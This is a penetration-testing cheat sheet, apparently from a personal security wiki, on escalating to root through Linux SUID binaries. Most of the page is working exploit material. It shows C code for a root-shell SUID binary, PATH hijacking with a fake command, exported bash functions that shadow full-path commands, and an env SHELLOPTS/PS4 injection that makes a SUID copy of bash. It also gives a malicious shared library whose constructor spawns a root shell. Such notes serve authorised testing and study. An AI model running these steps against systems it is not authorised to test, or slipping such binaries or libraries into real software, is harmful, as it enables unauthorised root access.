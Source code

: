 # SUID Binaries

## Theory

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

## Practice

### Misc SUID Binaries

{% tabs %}
{% tab title="Find" %}
We can use this command to find all SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -perm -4000 -type f 2>/dev/null
```
{% endtab %}

{% tab title="Create" %}
Here is how to create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
{% endtab %}

{% tab title="Known Exploits" %}
If you find that a binary have the SUID bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known SUID exploits.
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **suid** binary executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **suid** binary.

```bash
strings ./the-suid-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **suid** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the SUID binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-suid-bin
```
{% endtab %}
{% endtabs %}


### Functions Export Exploit - Full Path Binary

{% tabs %}
{% tab title="Enumerate" %}
If the **suid** binary executes another command specifying the full path, then, we can try to **export a function** named as the command that the suid file is calling.

You may use `strings` to spot others binary/command calls, or do some reverse engineering on the **suid** binary.

```bash
strings ./the-suid-bin

...
/usr/sbin/service apache2 start
...
```
{% endtab %}

{% tab title="Exploit" %}
we can try to **export a function** named as the command that the suid file is calling.

For example, if a suid binary calls /usr/sbin/service apache2 start you have to try to create the function and export it: 
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Then, execute the SUID binary.
```bash
./the-suid-bin
```

**An other method** is to type the following command:
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c './the-suid-bin; set +x; /tmp/bash -p'
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-suid-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUID** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-suid-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-suid-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **suid** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the SUID binary

```bash
./SUID-BINARY
```

{% hint style="info" %}
If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}


## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}
